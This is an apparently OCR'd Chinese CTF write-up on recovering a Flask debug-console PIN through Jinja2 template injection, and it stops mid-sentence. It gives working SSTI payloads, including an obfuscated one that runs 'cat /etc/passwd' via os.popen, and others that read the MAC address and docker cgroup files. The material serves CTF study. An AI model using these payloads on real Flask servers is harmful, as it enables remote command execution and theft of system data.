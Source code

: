 1.运行app的用户名，读/etc/passwd

2.module name 一般固定为flask.app

3.getattr(app, "\_\_name\_\_", app.\_\_class\_\_.\_\_name\_\_)的结果。就是Flask

4.flask库下app.py的绝对路径，不是当前运行的app.py的路径，在debug模式下报错就能直接看见，该题为/usr/local/lib/python3.7/site-packages/flask/app.py

5.当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取，eth0为当前使用的网卡，如果有多个网卡数字可能会变，这里为02:42:ae:00:c3:58，转十进制为 2485410382680

6.机器的id
对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件，windows的id获取跟linux也不同，假如是在win平台下读取不到上面两个文件，就去获取注册表中SOFTWARE\Microsoft\Cryptography的值。对于docker机则读取/proc/self/cgroup，序列号为1那行
1:name=systemd:/docker/210b2177689514627fab120347f7d1ea1e986bed6a9ef57504e2e3ac22e38c3c


读取/etc/passw:

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /etc/passwd").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

或者：

{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/etc/passwd').read()}}



flask库下app.py的绝对路径


/sys/class/net/eth0/address读取

{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/sys/class/net/eth0/address').read()}}

/etc/machine-id或/proc/sys/kernel/random/boot_i读取,这里是dockers机，就读/proc/self/cgroup

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}{% endif %}{% endfor %}

这两个同理，值得一提的是，首先：

mac的16进制的转换，需要本地跑脚本出的结果比较正确：

 print(int('a6ac1945f1d8',16))

其次:
